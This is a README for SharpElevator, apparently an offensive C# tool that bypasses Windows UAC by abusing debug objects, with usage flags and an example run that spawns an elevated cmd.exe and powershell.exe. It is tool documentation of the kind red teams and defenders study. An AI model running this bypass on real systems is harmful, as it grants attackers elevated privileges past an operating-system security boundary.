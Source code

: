 # Sharp Elevator

SharpElevator is a C# implementation of [Elevator](https://github.com/Kudaes/Elevator) by Kurosh Dabbagh Escalante for UAC bypass.

This UAC bypass was originally discovered by James Forshaw [(@tiraniddo)](https://twitter.com/tiraniddo) and published in his brilliant post at:
[https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html)

## Usage
  SharpElevator.exe [/command:&lt;command to execute&gt;] [/arguments:&lt;command line arguments&gt;] 
                           [/unelevatedpath:&lt;path&gt;] [/elevatedpath:&lt;path&gt;] [/nowindow] [/newconsole]

### Arguments
    [/command:<command to execute>]        Sets the command to executed in an elevated contex. 
                                           Defaults to cmd.exe.

    [/arguments:<command line arguments>]  Sets the command line arguments.
                                           Defaults to blank.

    [/unelevatedpath:<path>]               Sets the path of a sacrificial program to launch in an unelevated context.
                                           Defaults to C:\Windows\System32\notepad.exe

    [/unelevatedpath:<path>]               Sets the path of a sacrificial auto-elevated program.
                                           Defaults to C:\Windows\System32\taskmgr.exe

    [/nowindow]                            Sets the NoWindow flag for the new process.
                                           Defaults to false.

    [/newconsole]                          Sets the NewConsole flag for the new process.
                                           Defaults to false.

### Example

```
    ..>SharpElevator.exe /command:cmd.exe /arguments:"/ c powershell.exe" /newconsole

        [+] Unelevatad process created(C:\Windows\System32\notepad.exe)
        [+] Reference to debug object obtained
        [+] Terminated unelevated process
        [+] Detached debug object from unelevetad process
        [+] Elevatad process created(C:\Windows\System32\taskmgr.exe)
        [+] Initial process creation debug event retrieved
        [+] Obtained full access handle to elevated process
        [+] Terminated elevated process
        [+] Detached debug object from elevetad process
        [+] WOOT! Created elevated process cmd.exe /c powershell.exe
```
